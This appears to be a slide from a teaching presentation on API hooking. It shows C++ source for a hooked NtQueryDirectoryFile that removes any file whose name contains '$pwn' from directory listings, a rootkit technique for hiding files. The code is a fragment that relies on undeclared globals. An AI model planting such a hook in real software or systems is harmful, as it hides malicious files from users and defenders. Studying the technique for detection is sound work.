

Example-Hook and hide file information
//this function is to hide certain files with name including "$pwn"
NTSTATUS WINAPI hkNtQueryDirectoryFile(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan)
{     //returns information about files and directories in a directory
	const NTSTATUS QueryStatus = lpOrgNtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
	if (FileInformationClass == FILE_INFORMATION_CLASS::FileIdBothDirectoryInformation && QueryStatus == STATUS_SUCCESS)
	{
		PFILE_ID_BOTH_DIR_INFORMATION lpCurrentDirectory;
		auto lpNextDirectory = (PFILE_ID_BOTH_DIR_INFORMATION)FileInformation;

		do
		{
			lpCurrentDirectory = lpNextDirectory;
			lpNextDirectory = (PFILE_ID_BOTH_DIR_INFORMATION)((DWORD_PTR)lpCurrentDirectory + lpCurrentDirectory->NextEntryOffset); //obtain the next file information

			wcstombs_s(nullptr, lpCurrentDirectoryName, lpNextDirectory->FileName, MAX_PATH); //Converts a sequence of wide characters to a corresponding sequence of multibyte characters
			lpCurrentDirectoryName[MAX_PATH - 1] = '\0';

			if (StrStrIA(lpCurrentDirectoryName, "$pwn")) //trying to hide the next file ("$pwn")
			{
				if (lpNextDirectory->NextEntryOffset == 0)
					lpCurrentDirectory->NextEntryOffset = 0;
				else
					lpCurrentDirectory->NextEntryOffset += lpNextDirectory->NextEntryOffset;

				lpNextDirectory = lpCurrentDirectory;
			}

		} while (lpCurrentDirectory->NextEntryOffset != 0);
	}

	return QueryStatus;
}